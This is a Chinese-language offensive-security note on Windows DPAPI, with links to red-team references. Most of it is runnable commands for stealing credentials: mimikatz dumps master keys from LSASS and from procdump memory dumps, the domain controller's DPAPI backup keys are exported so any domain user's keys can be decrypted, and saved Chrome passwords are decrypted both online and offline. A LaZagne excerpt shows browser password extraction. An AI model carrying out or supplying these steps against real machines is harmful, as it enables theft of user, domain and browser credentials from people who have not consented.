


**参考:**

[How to hack a Windows password](https://miloserdov.org/?p=4129)

[How to decrypt stored Windows passwords using mimikatz and DAPA](https://miloserdov.org/?p=4205)

[渗透技巧-离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧-利用Masterkey离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8Masterkey%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[Operational Guidance for Offensive User DPAPI Abuse](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

## DPAPI简介

DPAPI全称`Data Protection Application Programming Interface`，是Windows提供的用于数据保护的一套接口，常见应用如下:

- Credential Manager
- Windows Vault
- IE browser passwords
- Passwords for connecting to Wi-Fi networks
- Certifications
- VPN passwords
- SSH keys
- Google Chrome browser passwords
- Google Talk, Skype, Dropbox, iCloud, Safari credentials

加密解密过程全透明，只要调用CryptProtectData和CryptUnprotectData即可。由于解密需要masterkey，所以一般情况下只能在本机解密，不能离线。


**DPAPI blob：**

待解密的密文，guidMasterKey字段描述了需要哪个MasterKey File。

```
dpapi::protect /data:"Test string to encrypt" /out:crypted.txt
dpapi::blob /in:crypted.txt /unprotect /masterkey:MASTERKEY
```


**MasterKEY**

64字节，用于解密DPAPI blob

通过用户登录密码、SID和16字节随机数加密后保存在Master Key file中


**MasterKey File**

位于%APPDATA%\Microsoft\Protect\%SID%，属于系统隐藏文件，需要如下设置才能看到；为了安全起见，系统每隔90天会自动生成一个新的Master Key(旧的不会删除)


```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4
```

使用以上命令只可以解析MasterKey File，还需要用户登录密码和SID才能解密出MasterKey

```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4 /password:"password" /sid:"S-1-5-21-1122623846-1054905608-851323858-1002"
```


## 获取MasterKey

### 在线Dump 当前登录所有用户MasterKey

mimikatz访问Lsass，获取本机当前登录用户的MasterKey

```
privilege::debug
sekurlsa::dpapi
```

从lsass.dmp中也可以得到MasterKey

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump "PATH\TO\lsass.dmp"
sekurlsa::dpapi
```





### 使用明文密码获取MasterKey

```
dpapi::masterkey /in:"C:\Users\win10\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1103\1781cbd4-923c-4f2e-9d6c-1f4dce9ba8c2" /password:"Test1234" /sid:"S-1-5-21-2475887593-94489213-2292866110-1103" /protected

dpapi::masterkey /in:"C:\Users\win10_2\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1105\c5268b2b-a834-4cee-853c-dc187834234c" /protected /password:"Test1234" /sid:"S-1-5-21-2475887593-94489213-2292866110-1105"
```


### 请求DC解密获取MasterKey

只能获取当前用户的

Since we are in a machine that is joined in a domain let’s take advantage of MS-BKRP (BackupKey Remote Protocol) and ask the domain controller to decrypt it for us using the “/rpc” switch in “Mimikatz”:

```
dpapi::masterkey /in:"C:\Users\win10\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1103\1781cbd4-923c-4f2e-9d6c-1f4dce9ba8c2" /rpc
```


### 从DC导出.pvk文件，解密任意域用户MasterKey

只有域管理员才有权限执行此操作

```
lsadump::backupkeys /system:"ringdc-pc.ring2.com" /export
```


```
dpapi::masterkey /in:a85b343b-6359-48e1-b89e-3616d239c809 /pvk:ntds_capi_0_0a40e56c-aae4-4c77-b72c-a07212b898b2.keyx.rsa.pvk
```


## MasterKey解密Chrome密码

DB文件: C:\Users\DELL\AppData\Local\Google\Chrome\User Data\Default\Login Data

1. 它是一个sqlite数据库文件，存储了url、账号、加密后的密码；
2. 密码使用Windows API [CryptProtectData()](https://docs.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptprotectdata)加密，对应解密函数为[CryptUnprotectData()](https://docs.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptunprotectdata)
   1. 解密需要用户凭据，加密时的设置(CRYPTPROTECT_LOCAL_MACHINE flag)决定了谁可以解密数据，一般情况下是设置加密的用户才可以解密数据。
   2. 通常只能在加密数据的计算机上进行解密，但如果一个用户有Roaming profile则可以解密其他机器上的Chrome Login Data文件。

使用sqlitestudio可以查看DB中数据，chrome打开是DB文件不能访问，可以先拷贝一份。




以LaZagne Project中的解密实现为例：

LaZagne-2.4.2\Windows\lazagne\softwares\browsers\chromium_based.py中_export_credentials函数

```
        try:
            conn = sqlite3.connect(db_path)
            cursor = conn.cursor()
            cursor.execute(self.database_query)
        except Exception as e:
            self.debug(str(e))
            return credentials

        for url, login, password in cursor.fetchall():
            try:
                # Decrypt the Password
                password = Win32CryptUnprotectData(password, is_current_user=constant.is_current_user, user_dpapi=constant.user_dpapi)
                if not url and not login and not password:
                    continue
                    
                credentials.append((url, login, password))
            except Exception:
                self.debug(traceback.format_exc())

        conn.close()
```

mimikatz也支持在线Dump Chrome密码

```
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```


如果有MasterKey, 可以离线导出Chrome密码

```
dpapi::chrome /in:"PATH\TO\Login Data" /unprotect /masterkey:MASTERKEY
```


## mimikatz操作blob data


如果拿到了masterkey，mimikatz会把它缓存下来，后面不指定/masterkey:也可以

```
dpapi::cache
dpapi::cache /save /file:cache.bin
dpapi::cache /load /file:cache.bin
```

